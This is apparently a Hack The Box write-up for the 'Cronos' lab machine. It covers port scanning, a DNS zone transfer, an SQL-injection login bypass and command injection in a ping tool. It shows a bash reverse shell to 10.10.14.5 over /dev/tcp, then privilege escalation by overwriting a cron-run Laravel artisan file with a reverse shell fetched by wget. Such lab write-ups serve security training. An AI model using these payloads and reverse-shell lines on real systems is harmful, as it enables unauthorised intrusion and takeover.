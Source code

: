 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)

## Recon-Enumeration  
sudo masscan -p1-65535 10.10.10.13 -e tun0 --rate=1000  
![alt text](./img/cronos01.PNG?raw=true)  

nmap -A -sC -v -p 22,53,80 10.10.10.13  
![alt text](./img/cronos02.PNG?raw=true)  

gobuster dir -u 10.10.10.13 -w ~/wordlist/big.txt -t 100 -e -x php,html,aspx,txt,xml  
![alt text](./img/cronos03.PNG?raw=true)  

searchsploit apache 2.4.18  
![alt text](./img/cronos04.PNG?raw=true)  

Ok, nothing really useful. Since we have port 53 open, let’s try to get some DNS information  
dig @10.10.10.13 -x 10.10.10.13  
![alt text](./img/cronos05.PNG?raw=true)  


So we have the domain, let’s add it to /etc/hosts  
![alt text](./img/cronos06.PNG?raw=true)  

Now let’s try a zone transfer to find subdomains  
dig axfr cronos.htb @10.10.10.13  
![alt text](./img/cronos07.PNG?raw=true)  

Another 2 subdomains, add them + the DNS (ns1.cronos.htb) to /etc/hosts and now let’s explore them  
![alt text](./img/cronos08.PNG?raw=true)  

Basic enumeration  
gobuster dir -u http://cronos.htb -w ~/wordlists/big.txt -t 100 -e -x php,html,aspx,txt,xml  
![alt text](./img/cronos09.PNG?raw=true)  

Opening the page http://cronos.htb/web.config  
![alt text](./img/cronos10.PNG?raw=true)  

Looks like some sort of rule checking the URL. Let’s access the others subdomains  
![alt text](./img/cronos11.PNG?raw=true)  

## Exploit  

Trying admin:admin  
![alt text](./img/cronos12.PNG?raw=true)  

Trying some SQLi one of them worked 
' or 1=1-- -  
![alt text](./img/cronos13.PNG?raw=true)  

Great, so now we have a traceroute and ping tool  
![alt text](./img/cronos14.PNG?raw=true)  

Ok, maybe we can exploit this. If we try to add ;whoami after the number the code will exec the command too  
![alt text](./img/cronos15.PNG?raw=true)  

So we can use it to obtain a shell  
- Start a netcat listener on port 12345  
- 8.8.8.8;bash -c 'exec bash -i &>/dev/tcp/10.10.14.5/12345 <&1'  
- EXECUTE  

![alt text](./img/cronos16.PNG?raw=true)  

HABEMUS SHELL \o/  

## Privesc  

Get a better shell:  
- python3 -c 'import pty;pty.spawn("/bin/bash")'  
- export TERM=xterm  

sudo -l  
![alt text](./img/cronos17.PNG?raw=true)  

It asks for password  
So let’s enumerate the machine  
cat /etc/passwd  
![alt text](./img/cronos18.PNG?raw=true)  

ls  
![alt text](./img/cronos19.PNG?raw=true)  

Some interesting files…  
![alt text](./img/cronos20.PNG?raw=true)  

Ok, let’s grab the flag before continue  
![alt text](./img/cronos21.PNG?raw=true)  

cat /etc/crontab  
![alt text](./img/cronos22.PNG?raw=true)  

Let’s check the files on /var/www/laravel  
![alt text](./img/cronos23.PNG?raw=true)  

Since we have writing permission, let’s copy the content o f the file and create a new one  
![alt text](./img/cronos24.PNG?raw=true)  
  
Just add those 2 lines and copy the file to the target machine  
Obs.: Those 2 lines can be found [HERE](https://gtfobins.github.io/gtfobins/php/#reverse-shell)

Start a netcat listener on port 4444 and a server  
- nc -nvlp 4444  
- sudo python3 -m http.server 80  

On the target machine let’s overwrite the artisan file  
- wget http://10.10.14.5/artisan2  
- cat artisan2 > artisan  

![alt text](./img/cronos25.PNG?raw=true)  

Now just wait…  
![alt text](./img/cronos26.PNG?raw=true)  

And grab the flag  
![alt text](./img/cronos27.PNG?raw=true)  
